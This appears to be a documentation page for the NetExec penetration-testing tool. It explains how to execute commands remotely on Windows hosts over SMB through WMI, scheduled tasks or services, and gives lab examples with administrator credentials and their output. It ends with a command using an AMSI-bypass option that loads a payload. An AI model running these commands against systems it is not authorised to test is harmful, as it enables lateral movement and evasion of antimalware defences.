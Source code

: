 # Executing Remote Commands

## Command Execution

Executing commands on a windows system requires Administrator credentials.

nxc automatically tells you if the credential set you're using has admin access to a host by appending "(Pwn3d!)" (or whatever value you've set in the config) to the output when authentication is successful.

## Execution Methods

nxc has three different command execution methods:

* `wmiexec` executes commands via WMI
* `atexec` executes commands by scheduling a task with windows task scheduler
* `smbexec` executes commands by creating and running a service

By default nxc will fail over to a different execution method if one fails. It attempts to execute commands in the following order:

1. `wmiexec`
2. `atexec`
3. `smbexec`

If you want to force nxc to use only one execution method you can specify which one using the `--exec-method` flag.

## Executing Commands

In the following example, we try to execute `whoami` on the target using the `-x` flag:

```
nxc 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami
06-05-2016 14:34:35 nxc          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
06-05-2016 14:34:35 nxc          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
06-05-2016 14:34:39 nxc          192.168.10.11:445 WIN7BOX         [+] Executed command 
06-05-2016 14:34:39 nxc          192.168.10.11:445 WIN7BOX         lab\administrator
06-05-2016 14:34:39 [*] KTHXBYE!
```

You can also directly execute PowerShell commands using the `-X` flag:

```
nxc 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
06-05-2016 14:36:06 nxc          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
06-05-2016 14:36:06 nxc          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         [+] Executed command 
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         Name                           Value
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         ----                           -----
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         CLRVersion                     2.0.50727.5420
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         BuildVersion                   6.1.7601.17514
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSVersion                      2.0
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         WSManStackVersion              2.0
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSCompatibleVersions           {1.0, 2.0}
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         SerializationVersion           1.1.0.1
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSRemotingProtocolVersion      2.1
06-05-2016 14:36:10 [*] KTHXBYE!
```

### Bypass AMSI

```
nxc 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'  --amsi-bypass /path/payload
```
